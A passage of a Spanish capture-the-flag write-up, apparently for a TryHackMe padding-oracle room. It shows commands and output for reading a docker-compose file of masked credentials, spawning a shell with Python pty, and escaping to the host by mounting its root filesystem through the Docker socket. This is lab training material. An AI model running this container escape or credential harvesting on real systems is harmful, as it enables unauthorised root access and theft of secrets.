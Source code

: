 Leemos el fichero *docker-compose.yml*, obtenemos las credenciales del anterior panel de administración y el resto de flags para resolver el reto (a excepción de la root flag):
```bash
root@02e849f307cc:/app# cat docker-compose.yml
cat docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=******************
      - CTF_PASSWORD=******************
      - CTF_ENCRYPTION_KEY=******************
      - CTF_ENCRYPTION_IV=******************
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=THM{******************}
      - CTF_ADMIN_PANEL_FLAG=THM{******************}      
root@02e849f307cc:/app# 
```

## Escalada de privilegios
Arreglamos el problema con tty importando la librería "*pty*" con **Python3**.

Con acceso como root en **Docker** podemos listar los repositorios disponibles para levantar contenedores con **Docker**:
```
root@02e849f307cc:/# python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
root@02e849f307cc:/# docker images
docker images
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```

Utilizamos el repositorio *openjdk*, montando la raiz del sistema anfitrión dentro de la carpeta "*m3n0s*", logrando leer el fichero *flag.txt* del usuario root:
```
root@02e849f307cc:/# docker run -v /:/m3n0s --rm -it openjdk:11 sh
docker run -v /:/m3n0s --rm -it openjdk:11 sh
# ls -lna
ls -lna
total 76
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 .
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 ..
-rwxr-xr-x   1 0 0    0 Jul 13 13:07 .dockerenv
drwxr-xr-x   1 0 0 4096 Aug  2  2022 bin
drwxr-xr-x   2 0 0 4096 Jun 30  2022 boot
drwxr-xr-x   5 0 0  360 Jul 13 13:07 dev
drwxr-xr-x   1 0 0 4096 Jul 13 13:07 etc
drwxr-xr-x   2 0 0 4096 Jun 30  2022 home
drwxr-xr-x   1 0 0 4096 Aug  1  2022 lib
drwxr-xr-x   2 0 0 4096 Aug  1  2022 lib64
drwxr-xr-x  19 0 0 4096 Jul 13 09:53 m3n0s
drwxr-xr-x   2 0 0 4096 Aug  1  2022 media
drwxr-xr-x   2 0 0 4096 Aug  1  2022 mnt
drwxr-xr-x   2 0 0 4096 Aug  1  2022 opt
dr-xr-xr-x 192 0 0    0 Jul 13 13:07 proc
```